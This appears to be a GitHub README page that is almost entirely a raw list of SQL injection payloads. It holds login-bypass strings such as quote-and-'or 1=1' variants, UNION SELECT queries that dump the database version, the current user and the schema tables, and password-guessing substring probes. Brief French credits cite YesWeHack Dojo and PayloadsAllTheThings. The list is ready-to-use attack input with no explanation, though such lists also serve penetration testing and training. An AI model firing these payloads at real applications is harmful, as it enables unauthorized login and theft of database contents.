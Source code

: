 ```sqlite
') or '1'='1'#
') or ('1'='1
') or ('1'='1--
') or ('1'='1'--
') or ('1'='1'#
'or'1=1
'or'1=1′
" or "1"="1
" or "1"="1"--
" or "1"="1"#
" or 1=1
" or 1=1 --
" or 1=1 –
" or 1=1--
" or 1=1#
" or 1=1–
") or "1"="1
") or "1"="1"--
") or "1"="1"#
") or ("1"="1
") or ("1"="1"--
") or ("1"="1"#
) or '1′='1–
) or ('1′='1–
' or 1=1 LIMIT 1;#
'or 1=1 or ''='
"or 1=1 or ""="
' or 'a'='a
' or a=a--
' or a=a–
') or ('a'='a
" or "a"="a
") or ("a"="a
') or ('a'='a and hi") or ("a"="a
' or 'one'='one
' or 'one'='one–
' or uid like '%
' or uname like '%
' or userid like '%
' or user like '%
' or username like '%
' or 'x'='x
') or ('x'='x
" or "x"="x
' OR 'x'='x'#;
'=' 'or' and '=' 'or'
' UNION ALL SELECT 1, @@version;#
' UNION ALL SELECT system_user(),user();#
' UNION select table_schema,table_name FROM information_Schema.tables;#
admin' and substring(password/text(),1,1)='7
' and substring(password/text(),1,1)='7
' or 1=1 limit 1 -- -+
'="or'
```




###### Crédits
`YesWeHack Dojo pour les exemples`
`Paylaod all the things pour certains payloads`
`https://dojo-yeswehack.com/SQL-Injection/Training/Simple-Login-Bypass`
`https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md`
